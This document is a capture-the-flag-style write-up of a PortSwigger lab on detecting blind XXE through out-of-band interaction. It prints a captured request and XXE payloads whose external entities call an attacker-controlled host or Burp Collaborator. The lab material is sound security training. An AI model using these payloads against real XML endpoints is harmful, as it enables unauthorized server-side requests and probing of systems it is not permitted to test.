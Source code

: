 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e335081d-5111-4ef9-9834-635686615b4b)

## Overview :

 You can often detect blind XXE using the same technique as for XXE SSRF attacks but **triggering the out-of-band network interaction** to a system that you control. For example, you would define an external entity as follows:

 ```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful. 

## Solution :

Clicking on checkstock feature send the following request, 

```xml
POST /product/stock HTTP/1.1
Host: 0a5500920363ef3783ca2e3900dd000f.web-security-academy.net
Cookie: session=N7UKKawFN8qZnb8SyEtJbdm5XyhRWxmQ
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5500920363ef3783ca2e3900dd000f.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5500920363ef3783ca2e3900dd000f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
To solve the lab we need to make an out bound request to our collaborator server to solve the lab.

For this we can use the following payload

```xml
<!DOCTYPE root [<!ENTITY  % ext SYSTEM "http://burp-collaborator.net/">]>
<stockCheck>
  <productId>%ext;</productId>
  <storeId>1</storeId>
</stockCheck>
```
But in the response we get an error stating that - `Entities are not allowed for security reasons`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a2461887-1d9d-4e37-9f22-e50e9408f8f1)


So instead of using parameterized entities, we use normal entities.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1b1f7d98-e276-4a1b-93d4-a482156e5b5f)

The response states - `Invalid product ID` which is an indicator that there is no productID but still the application may have parsed the entity and made out-bound request to our burp collaborator server.

Now in our collaborator server, we can see that we have some DNS & HTTP requests made .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4a0f5ffc-ce18-4fe1-8994-82cba789bd05)


We have thus solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cfaf31b9-e432-41a6-b2da-a421c027dfdd)







